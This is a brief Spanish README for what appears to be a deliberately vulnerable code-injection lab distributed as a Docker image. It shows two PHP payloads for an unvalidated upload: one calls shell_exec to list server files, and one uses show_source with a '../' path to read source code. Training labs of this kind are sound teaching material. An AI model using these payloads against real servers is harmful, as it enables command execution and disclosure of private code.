 # Code Injection

Descargar y Montar el servidor desde Docker:

```bash
docker pull ghcr.io/ingenieroricardo/codeinjection:latest
docker run --publish 8080:80 ghcr.io/ingenieroricardo/codeinjection:latest
```

<hr>

Al no tener validaciones se pueden enviar PHP que se pueden ejecutar como esto:

Conocer los archivos en el servidor
```php
<?php
  $salida = shell_exec("cd .. && ls");
  echo "<pre>$salida</pre>";
?>
```
Ver codigo fuente
```php
<?php
  show_source("../archivos.php");
?>
```
